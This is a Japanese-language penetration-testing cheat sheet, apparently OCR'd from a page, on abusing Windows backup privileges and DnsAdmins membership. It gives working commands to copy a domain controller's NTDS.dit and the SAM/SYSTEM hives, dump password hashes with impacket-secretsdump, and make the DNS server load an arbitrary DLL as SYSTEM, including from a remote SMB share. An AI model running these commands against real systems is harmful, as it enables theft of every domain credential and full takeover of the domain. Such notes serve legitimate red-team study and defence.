 ### NTDS.dit をローカルにコピーする

#### Copy-FileSeBackupPrivilege を使用したファイルのコピー

```powershell-session
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit ntds.dit
```

#### Robocopy を使用したファイルのコピー

組み込みユーティリティ [robocopy](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy) を使用して、バックアップ モードでもファイルをコピーできる

```cmd-session
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

### SAM および SYSTEM レジストリ ハイブのバックアップ

SAM および SYSTEM レジストリ ハイブをバックアップすることで `Impacket` の `Secretsdump.py` などのツールを使用して、ローカル アカウントの資格情報をオフラインで抽出できる

```cmd-session
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

### Impacket-SecretsDump を使用したハッシュの抽出

```
impacket-secretsdump -ntds ntds.dit -system SYSTEM.SAV -hashes lmhash:nthash LOCAL
```
その他解析手法

[Windows 権限昇格 SeBackupPrivilege](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)

[資格情報のダンプ: NTDS.dit](https://www.hackingarticles.in/credential-dumping-ntds-dit/)

# DnsAdmins

`DnsAdmins` グループのメンバーは、DNSサーバー（通常はドメインコントローラーにホストされる）で任意のDLLをSYSTEM権限で読み込む特権を悪用できる。この機能により、重要な悪用の可能性が生じる

## DnsAdminsグループのメンバーをリストアップ

```
Get-ADGroupMember -Identity DnsAdmins
```

## 任意のDLLの実行

次のようなコマンドを使用して、DNSサーバーに任意のDLL（ローカルまたはリモート共有から）を読み込ませる

```
dnscmd.exe /config /serverlevelplugindll C:\path\to\<カスタムDLL>  # フルパスで指定
dnscmd.exe /config /serverlevelplugindll \\<smbserver-ip>\share\<カスタムDLL>
```
